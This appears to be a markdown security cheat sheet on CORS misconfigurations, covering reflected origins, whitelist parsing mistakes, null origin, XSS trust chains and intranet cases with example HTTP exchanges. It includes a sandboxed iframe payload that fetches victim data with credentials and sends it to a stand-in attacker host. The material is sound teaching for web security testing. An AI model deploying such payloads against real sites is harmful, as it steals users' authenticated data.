 ## Things You Need to Know

- [Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)
- [Same-origin policy (SOP)](https://portswigger.net/web-security/cors/same-origin-policy)
- [CORS and the Access-Control-Allow-Origin response header](https://portswigger.net/web-security/cors/access-control-allow-origin)

## Tools

- [CORScanner](https://github.com/chenjj/CORScanner)


## Details Vulnerabilities

### Server-generated ACAO header from client-specified Origin header

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

### Errors parsing Origin headers

For example, the application receives a normal request like:
```http
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
``` 

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:

```http
normal-website.com
```
An attacker might be able to gain access by registering the domain:

```http
hackersnormal-website.com
```

Alternatively, suppose an application grants access to all domains beginning with

```http
normal-website.com
```

An attacker might be able to gain access using the domain:

```http
normal-website.com.evil-user.net
```

## Whitelisted null origin value

Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-domain request:

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

And the server responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-domain request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

If the server responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:

```http
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

## Intranets and CORS without credentials

Most CORS attacks rely on the presence of the response header:

```http
Access-Control-Allow-Credentials: true
```

For example, a cross-domain request within a private network may be as follows:

```http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

And the server responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

